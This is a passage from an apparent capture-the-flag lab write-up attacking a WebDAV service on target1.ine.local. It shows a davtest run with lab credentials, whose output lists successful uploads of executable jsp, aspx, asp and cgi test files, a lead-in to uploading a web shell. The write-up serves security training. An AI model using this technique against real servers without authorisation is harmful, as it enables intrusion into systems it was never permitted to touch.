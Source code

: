
Here we found some good directories, let’s find what is behind the directory called `webdav` , We found the First flag.txt

![alt text](/assets/img/imagec.png)

---

### Flag 2:

Valuable files are often on the C: drive. Explore it thoroughly. (target1.ine.local)

Hence the service that is running is `webdav`, **WebDAV (Web Distributed Authoring and Versioning)** is an extension of the HTTP protocol that allows users to manage and edit files on remote web servers. In other words WebDAV lets you **upload, download, edit, delete, and organize files on a web server**, much like a shared drive. with that in mind we’ll use a tool called davtest which is the used to upload a list of executable files and check if the files can be executable on the webdav. 

```bash
┌──(root㉿INE)-[~]
└─# davtest -auth bob:password_123321 -url http://target1.ine.local/webdav                                                                                                                                                                 
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://target1.ine.local/webdav
********************************************************
NOTE    Random string for this session: 5AaeXS
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://target1.ine.local/webdav/DavTestDir_5AaeXS
********************************************************
 Sending test files
PUT     jsp     SUCCEED:        http://target1.ine.local/webdav/DavTestDir_5AaeXS/davtest_5AaeXS.jsp
PUT     aspx    SUCCEED:        http://target1.ine.local/webdav/DavTestDir_5AaeXS/davtest_5AaeXS.aspx
PUT     txt     SUCCEED:        http://target1.ine.local/webdav/DavTestDir_5AaeXS/davtest_5AaeXS.txt
PUT     asp     SUCCEED:        http://target1.ine.local/webdav/DavTestDir_5AaeXS/davtest_5AaeXS.asp
PUT     cfm     SUCCEED:        http://target1.ine.local/webdav/DavTestDir_5AaeXS/davtest_5AaeXS.cfm
PUT     cgi     SUCCEED:        http://target1.ine.local/webdav/DavTestDir_5AaeXS/davtest_5AaeXS.cgi
PUT     pl      SUCCEED:        http://target1.ine.local/webdav/DavTestDir_5AaeXS/davtest_5AaeXS.pl
```
